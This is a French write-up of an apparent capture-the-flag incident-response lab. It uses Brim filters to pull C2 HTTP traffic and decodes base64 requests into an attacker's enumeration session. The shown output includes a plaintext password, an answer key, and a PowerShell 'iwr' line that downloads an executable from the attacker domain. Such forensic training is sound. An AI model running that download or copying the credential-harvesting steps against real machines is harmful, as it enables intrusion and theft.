

# Reconnaissance interne
 
D'après les éléments collectés, on a découvert que le **binaire malveillant utilise en continu le trafic C2** :
 
- On peut facilement **décoder la chaîne encodée** dans le trafic réseau.
- Le trafic contient les **commandes exécutées par l'attaquant et leur résultat**.
## Guide d'investigation
 
Pour poursuivre l'investigation, on peut se concentrer sur les informations suivantes :
 
- Recherchez les **événements réseau et processus** qui se connectent au domaine malveillant.
- Recherchez les **événements réseau contenant une commande encodée**.
- On peut utiliser **Brim** pour filtrer tous les paquets contenant la chaîne encodée.
- Cherchez des **commandes d'énumération du poste**, puisque l'attaquant est déjà à l'intérieur de la machine.
On peut aussi se référer à l'aide-mémoire Brim pour analyser rapidement le trafic encodé avec le filtre suivant :
 
- Pour obtenir toutes les requêtes HTTP liées au trafic C2 malveillant :
```
_path=="http" "<domaine>" id.resp_p==<port> | cut ts, host, id.resp_p, uri | sort ts
```
### Question

1 - L'attaquant a réussi à découvrir un fichier sensible sur la machine de l'utilisateur. Quel est le mot de passe découvert dans ce fichier ?

On utilise la commande donné pour récupérer les requetes : _path=="http" "resolvecyber.xyz" id.resp_p==80 | cut ts, host, id.resp_p, uri | sort ts



On décode ensuite les requetes en base64 afin de décoder le trafic :

```
whoami - tempest\benimaru
pwd - 
Path               
----               
C:\Windows\system32


dir C:\Users - 

    Directory: C:\Users


Mode                LastWriteTime         Length Name                                                                   
----                -------------         ------ ----                                                                   
d-----        6/20/2022   9:06 PM                benimaru                                                               
d-r---        6/20/2022   4:03 PM                Public                                                                 
d-----        6/20/2022  11:52 PM                rimuru                                                                 


net users - 
User accounts for \\TEMPEST

-------------------------------------------------------------------------------
Administrator            benimaru                 DefaultAccount           
Guest                    rimuru                   WDAGUtilityAccount       
The command completed successfully.

net localgroup administrators - Alias name     administrators
Comment        Administrators have complete and unrestricted access to the computer/domain

Members

-------------------------------------------------------------------------------
Administrator
rimuru
The command completed successfully.

net localgroup administrators - Alias name     administrators
Comment        Administrators have complete and unrestricted access to the computer/domain

Members

-------------------------------------------------------------------------------
Administrator
rimuru
The command completed successfully.

net localgroup administrators - Alias name     administrators
Comment        Administrators have complete and unrestricted access to the computer/domain

Members

-------------------------------------------------------------------------------
Administrator
rimuru
The command completed successfully.

dir C:\Users\benimaru\documents - dir C:\users\benimaru\Desktop - 

    Directory: C:\users\benimaru\Desktop


Mode                LastWriteTime         Length Name                                                                   
----                -------------         ------ ----                                                                   
-a----        6/20/2022  11:34 PM            268 automation.ps1                                                         
-a----        6/20/2022   4:13 PM           1446 Microsoft Edge.lnk                                                     


cat C:\Users\Benimaru\Desktop\automation.ps1 - $user = "TEMPEST\benimaru"
$pass = "infernotempest"

$securePassword = ConvertTo-SecureString $pass -AsPlainText -Force;
$credential = New-Object System.Management.Automation.PSCredential $user, $securePassword

## TODO: Automate easy tasks to hack working hours
cat C:\Users\Benimaru\Desktop\automation.ps1 - $user = "TEMPEST\benimaru"
$pass = "infernotempest"

$securePassword = ConvertTo-SecureString $pass -AsPlainText -Force;
$credential = New-Object System.Management.Automation.PSCredential $user, $securePassword

## TODO: Automate easy tasks to hack working hours
powershell iwr http://phishteam.xyz/02dcf07/ch.exe -outfile C:\Users\benimaru\Downloads\ch.exe - dir C:\Users\benimaru\Downloads\ch.exe - 

    Directory: C:\Users\benimaru\Downloads


Mode                LastWriteTime         Length Name                                                                   
----                -------------         ------ ----                                                                   
-a----        6/21/2022   1:17 AM        8230912 ch.exe                                                                 

```
réponse : infernotempest

2 - L'attaquant a ensuite dressé la liste des ports en écoute sur la machine. Quel est le port en écoute susceptible de permettre l'accès à un shell distant sur la machine ?


